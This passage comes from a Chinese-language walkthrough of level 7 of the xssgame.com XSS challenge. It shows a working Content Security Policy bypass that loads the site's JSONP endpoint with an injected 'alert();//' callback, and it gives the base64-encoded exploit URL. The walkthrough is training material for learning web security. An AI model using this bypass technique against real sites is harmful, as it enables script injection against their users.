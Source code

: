 ![Level_7_Img_Pass_Fail](/Image/Level_7_Img_Pass_Fail.png)

chrome 控制台红字提示：
```
   Refused to execute inline event handler because it violates the following Content Security Policy directive: "default-src http://www.xssgame.com/f/wmOM2q5NJnZS/ http://www.xssgame.com/static/". Either the 'unsafe-inline' keyword, a hash ('sha256-...'), or a nonce ('nonce-...') is required to enable inline execution. Note also that 'script-src' was not explicitly set, so 'default-src' is used as a fallback.
```
因为 CSP 的关系，失败了。

没关系，我们换套路，既然 menu 的参数能显示到页面内，我们又知道了这个站有 callback 的缺陷，我们结合一下。

先给个小提示：

![Level_7_Pass_idea](/Image/Level_7_Pass_idea.png)

自己先想两分钟~

```
给 menu 传入经过 base64 编码后的：
    <script src='jsonp?callback=alert()%3B//'></script> // 转义前为：<script src='jsonp?callback=alert();//'></script>
会把
    <script src='jsonp?callback=alert();//'></script>
显示在页面上，script 标签会尝试加载，触发一个请求，script 而请求的返回内容为：
    alert();//({...})
alert(); 后面被注释掉，执行 alert();

```
最后我们组织的 URL 为：
```
http://www.xssgame.com/f/wmOM2q5NJnZS/?menu=PHNjcmlwdCBzcmM9J2pzb25wP2NhbGxiYWNrPWFsZXJ0KCklM0IvLyc+PC9zY3JpcHQ+
```
过关：
